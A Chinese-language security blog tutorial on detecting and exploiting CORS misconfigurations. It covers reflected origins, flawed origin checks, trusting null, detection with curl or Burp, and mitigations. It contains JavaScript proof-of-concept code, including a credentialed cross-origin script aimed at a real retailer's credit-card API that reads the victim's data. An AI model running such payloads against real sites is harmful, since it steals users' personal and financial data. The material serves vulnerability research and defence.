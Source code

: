 # CORS漏洞检测和利用方式


## 简介

CORS全称`Cross-Origin Resource Sharing`, 跨域资源共享，是HTML5的一个新特性，已被所有浏览器支持，不同于古老的jsonp只能get请求，被发明出来就是为了干掉JSONP的，因为用的多，其安全问题也更加普遍。

解决了跨域情况下资源的请求与传输。



## CORS实现原理



> 有个常见的关于同源策略的误区需要指出一下，同源策略并不限制请求的发起和响应，只是浏览器拒绝了js对响应资源的操作



CORS本质上就是使用各种头信息让浏览器与服务器之间进行交流，上面提到的名单就是用下面的http头字段来控制的：

![cors的http字段](http://image.xpshuai.cn/img/image-20220112212319982.png)

其中比较重要的相应头为：

```
Access-Control-Allow-Origin: http://a.com  表示服务端接受来自http://a.com的跨域请求
Access-Control-Allow-Credentials: true  表示是否允许发送Cookie，true即发送cookie
```





## CORS常见安全问题

实际中我们可能会遇到各种场景，所以CORS也很容易出现配置上的安全问题，大概有如下几种：

### 1 反射Origin头

当管理员想允许多个域名跨域请求时，以下写法都是不允许的

```bash
Access-Control-Allow-Origin: http://a.com, http://c.com
#或者
Access-Control-Allow-Origin: http://*.a.com
```

因为CORS标准规定，Access-Control-Allow-Origin**只能配置为单个origin, null或***。

有些开发者为了方便，直接使用请求者的origin作为Access-Control-Allow-Origin的域名，例如下面的Nginx配置:

```bash
add_header "Access-Control-Allow-Origin" $http_origin;
add_header "Access-Control-Allow-Credentials" "true";

# 这种配置非常危险，相当于任意网站可以直接跨域读取其资源内容。
```





### 2 Origin 校验错误

前面那种反射Origin的做法过于暴力，一般不可取，常用做法是通过自定义规则来校验Origin头，但是在校验过程中也会出现错误。这些错误可以分为四类：

- **前缀匹配**：例如想要允许example.com访问，但是只做了前缀匹配，导致同时信任了example.com.attack.com的访问。
- **后缀匹配**：例如想要允许example.com访问，由于后缀匹配出错，导致允许attackexample.com访问。
- **没有转义`.`**：例如想要允许www.example.com访问，但正则匹配没有转义`.`，导致允许wwwaexample.com访问。
- **包含匹配**：例如想要允许example.com，但是Origin校验出错，出现允许ample.com访问。



### 3 信任null

当配置信任名单为null，可以用来和本地file页面共享数据，如下所示：

```
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

但是攻击者也可以构造Origin为null的跨域请求，比如通过iframe sandbox：

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src='data:text/html,<script>
var xhr=new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
        alert(xhr.responseText);
    }
}
xhr.open("GET", "http://www.a.com/a.php", true);
xhr.withCredentials = true;
xhr.send();</script>'>
</iframe>
```



### 4 HTTPS域信任HTTP域

但是如果该HTTPS网站配置了CORS且信任HTTP域，那么中间人攻击者可以先劫持受信任HTTP域，然后通过这个域发送跨域请求到HTTPS网站，间接读取HTTPS域下的受保护内容.



### 5 信任自身全部子域

很多网站为了方便会将CORS配置为信任全部自身子域，这种配置会扩大子域 XSS的危害。

比如某子站存在xss时，可以通过此xss发送跨域请求，从而获取敏感内容。



### 6 Origin:*与 Credentials:true 共用

`Access-Control-Allow-Origin:*`用于表示允许任意域访问，这种配置只能用于共享公开资源。

所以下面这种配置是错误的，浏览器不允许这两种配置同时出现。(对于共享公开资源，不应该需要身份认证)

```
Access-Control-Allow-Origin: * 
Access-Control-Allow-Credentials: true 
```



### 7 缺少Vary: Origin头

如果一个资源享有多个域名，它需要对不同域名的请求包生成不同的Access-Control-Allow-Origin头。如果一个请求的响应被缓存，且返回中没有Vary: Origin字段，可能会导致其它域名的请求失效。

比如c.com同时允许a.com和b.com共享。c.com资源内容首先被a.com脚本跨域访问后被缓存，其中缓存响应头为`Access-Control-Allow-Origin:http://a.com`这时，b.com脚本则不能读取缓存响应内容，因为缓存响应头是允许a.com共享，而不是b.com。





## 检测方式

F1.curl访问网站　　

```
curl http://www.xpshuai.cn -H "Origin: https://test.com" -I
```

检查返回包的 Access-Control-Allow-Origin 字段是否为https://test.com



F2.burpsuite发送请求包，查看返回包



F3.也可以用开源工具：https://github.com/chenjj/CORScanner



F4.对于网站漏洞的挖掘可以使用burp，先勾选上proxy --> options --> Origin --> match and replace里面的Add spoofed CORS origin。

然后在网站观察功能点，最后在HTTP history来筛选带有CORS头部的值，然后用以上工具查看是否有配置缺陷。

检测到CORS配置错误以后，以下有一份poc可用来写报告（感谢大佬）：

```javascript
<script>
    //以受害者身份，发送一个跨域请求给目标url
    var req = new XMLHttpRequest();
    req.open('GET',"https://www.walmart.com/account/electrode/account/api/customer/:CID/credit-card",true);
    req.onload = stealData;
    req.withCredentials = true;
    req.send();

    function stealData(){
        //由于目标站点的CORS配置错误，我们可以读取到相应包
        var data= JSON.stringify(JSON.parse(this.responseText),null,2);

        //展示相应包到这个页面上，作为hacker还可以将内容发送到自己的服务器
        output(data);
    }

    function output(inp) {
        document.body.appendChild(document.createElement('pre')).innerHTML = inp;
    }
</script>

```



## 危害

1.同于csrf跨站请求伪造，发送钓鱼链接，读取用户敏感数据。

​	还可以获取cookie，针对http-only js代码无法读取的情况



2.结合xss漏洞利用cors漏洞，针对http_only js代码无法读取











## 漏洞防范

- 不要盲目反射Origin头
- 严格校验Origin头，避免出现权限泄露
- 不要配置Access-Control-Allow-Origin: null
- HTTPS网站不要信任HTTP域
- 不要信任全部自身子域，减少攻击面
- 不要配置Origin:*和Credentials: true
- 增加Vary: Origin头







## 参考文章

[CORS介绍及其漏洞检测 - SAUCERMAN (saucer-man.com)](https://saucer-man.com/information_security/331.html)



---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/cors%E6%BC%8F%E6%B4%9E%E6%A3%80%E6%B5%8B%E5%92%8C%E5%88%A9%E7%94%A8%E6%96%B9%E5%BC%8F/  

